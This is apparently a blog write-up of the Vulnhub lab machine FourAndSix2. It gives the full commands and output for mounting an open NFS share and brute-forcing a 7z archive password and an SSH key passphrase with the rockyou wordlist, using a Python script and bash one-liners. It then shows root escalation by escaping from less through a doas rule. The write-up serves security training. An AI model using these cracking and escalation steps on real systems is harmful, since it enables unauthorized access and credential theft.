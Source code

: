 ```yaml
---
layout:     post
title:      "Vulnhub.com - FourAndSix2"
date:       2018-12-10 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Task is to become root and read /root/flag.txt.

* Author: [Fred](https://www.vulnhub.com/author/fred,583/)
* Download: [https://www.vulnhub.com/entry/fourandsix-201,266/](https://www.vulnhub.com/entry/fourandsix-201,266/)

We can start by running `nmap` on our target IP.

{% highlight text %}
root@kali:~# nmap -sC -sV -sS -A 10.0.0.7
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-07 05:41 EST
Nmap scan report for 10.0.0.7
Host is up (0.00085s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          658/udp  mountd
|_  100005  1,3          942/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 10.0.0.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.75 seconds
{% endhighlight %}

There is `nfs` up and running. We can use `showmount` to view if there are any mountable shares. 

{% highlight text %}
root@kali:~# showmount -e 10.0.0.7
Export list for 10.0.0.7:
/home/user/storage (everyone)
{% endhighlight %}

Great, we have open share, which we can mount. 

{% highlight text %}
root@kali:~# mkdir /tmp/storage
root@kali:~# mount -t nfs 10.0.0.7:/home/user/storage /tmp/storage
root@kali:~# cd /tmp/storage/
root@kali:/tmp/storage# ls -la
total 68
drwxr-xr-x  2 1000 1000   512 Oct 29 08:28 .
drwxrwxrwt 16 root root  4096 Dec  7 06:07 ..
-rw-r--r--  1 1000 1000 62111 Oct 29 08:28 backup.7z
{% endhighlight %}

And now we have a file called `backup.7z` to analyze. 

{% highlight text %}
root@kali:/tmp/storage# 7z e backup.7z 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-2410M CPU @ 2.30GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
ERROR: Data Error in encrypted file. Wrong password? : hello1.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello2.png
ERROR: Data Error in encrypted file. Wrong password? : hello3.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello4.png
ERROR: Data Error in encrypted file. Wrong password? : hello5.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello6.png
ERROR: Data Error in encrypted file. Wrong password? : hello7.jpeg
ERROR: Data Error in encrypted file. Wrong password? : hello8.jpeg
ERROR: Data Error in encrypted file. Wrong password? : id_rsa
ERROR: Data Error in encrypted file. Wrong password? : id_rsa.pub
                 
Sub items Errors: 10

Archives with Errors: 1

Sub items Errors: 10
{% endhighlight %}

It's password protected, but while opening we can see some interesting files like `id_rsa`. As they may help us to get into the `ssh`, I decided to brute force the password with this little Python script. 

{% highlight python %}
#!/usr/bin/env python2
import os,sys
     
f = open(sys.argv[1],'r')
lines = f.read().splitlines()
     
for line in lines:
    x = os.system('7z e {0} -p{1}'.format(sys.argv[2],line))
    if x == 0:
    	print '[~] Password is : {0}\n\n'.format(line)
    	exit(1)
     
print '[!] Password not found in the provided list!\n\n'
{% endhighlight %}

Now let's run it and wait for the results. 

{% highlight text %}
root@kali:/tmp/storage# python brute.py /usr/share/wordlists/rockyou.txt backup.7z

Scanning the drive for archives:
1 file, 62111 bytes (61 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 62111
Headers Size = 303
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

Everything is Ok

Files: 10
Size:       64066
Compressed: 62111
[~] Password is : chocolate
{% endhighlight %}

Now that we have everything decompressed, let's view the files. Firstly, in `id_rsa.pbu` we have name of the user. It will be essential for logging into the `ssh`.

{% highlight text %}
root@kali:/tmp/storage# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
{% endhighlight %}

Unfortunately, we also need a passphrase for the key.

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
The authenticity of host '10.0.0.7 (10.0.0.7)' can't be established.
ECDSA key fingerprint is SHA256:6ERaSFrckV66j7RBrFiTjwlQs8WMfIiGZSLNj4otVb4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.0.7' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
{% endhighlight %}

After trying to find clues in decompressed images, I decided to run another brute force attack.

{% highlight text %}
root@kali:/tmp/storage# ssh2john id_rsa > hash
! id_rsa : input keyfile validation failed
{% endhighlight %}

As `ssh2john` could not get the hashes from the key, I decided to run this simple one liner brute forcer with bash.

{% highlight text %}
root@kali:/tmp/storage# cat /usr/share/wordlists/rockyou.txt | while read pass; do if ssh-keygen -c -C “user@forandsix” -P $pass -f id_rsa &>/dev/null; then echo $pass; break; fi; done
12345678
{% endhighlight %}

And this time, we have a password `12345678`. Finally, we can log into the system. 

{% highlight text %}
root@kali:/tmp/storage# ssh user@10.0.0.7 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ ls -la
total 40
drwxr-xr-x  4 user  user   512 Oct 29 13:27 .
drwxr-xr-x  3 root  wheel  512 Oct 29 13:03 ..
-rw-r--r--  1 user  user    87 Oct 11 21:18 .Xdefaults
-rw-r--r--  1 user  user   771 Oct 11 21:18 .cshrc
-rw-r--r--  1 user  user   101 Oct 11 21:18 .cvsrc
-rw-r--r--  1 user  user   359 Oct 11 21:18 .login
-rw-r--r--  1 user  user   175 Oct 11 21:18 .mailrc
-rw-r--r--  1 user  user   215 Oct 11 21:18 .profile
drwx------  2 user  user   512 Oct 29 14:02 .ssh
drwxr-xr-x  2 user  user   512 Dec  8 12:24 storage
{% endhighlight %}

Doing simple enumaration for any misconfigured services, I've found `doas` tool.

{% highlight text %}
fourandsix2$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
/usr/bin/at
/usr/bin/atq
/usr/bin/atrm
/usr/bin/batch
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/doas
/usr/bin/lock
/usr/bin/lpq
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/skeyaudit
/usr/bin/skeyinfo
/usr/bin/skeyinit
/usr/bin/ssh-agent
/usr/bin/su
/usr/bin/wall
/usr/bin/write
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/lpc
/usr/sbin/lpd
/usr/sbin/pppd
/usr/sbin/smtpctl
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown
/var/audit
{% endhighlight %}

After viewing it's configuration files, we can see that it's possible to run `/usr/bin/less args /var/log/authlog` as root with `doas`. 

{% highlight text %}
fourandsix2$ cat /etc/doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root

fourandsix2$ doas /usr/bin/less /var/log/authlog
{% endhighlight %}

From that, further exploitation is trivial as we have to enter `!sh` in order to run commands just like in `vim`. 

{% highlight text %}
fourandsix2# cd /root
fourandsix2# ls -la
total 40
drwx------   3 root  wheel  512 Oct 29 13:26 .
drwxr-xr-x  13 root  wheel  512 Dec  8 12:32 ..
-rw-r--r--   1 root  wheel   87 Oct 11 21:18 .Xdefaults
-rw-r--r--   1 root  wheel  578 Oct 11 21:18 .cshrc
-rw-r--r--   1 root  wheel   94 Oct 11 21:18 .cvsrc
-rw-r--r--   1 root  wheel    5 Oct 29 13:03 .forward
-rw-r--r--   1 root  wheel  328 Oct 11 21:18 .login
-rw-r--r--   1 root  wheel  468 Oct 11 21:18 .profile
drwx------   2 root  wheel  512 Oct 29 14:02 .ssh
-rw-r--r--   1 root  wheel  426 Oct 29 13:25 flag.txt
fourandsix2# cat flag.txt                                                      
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
{% endhighlight %}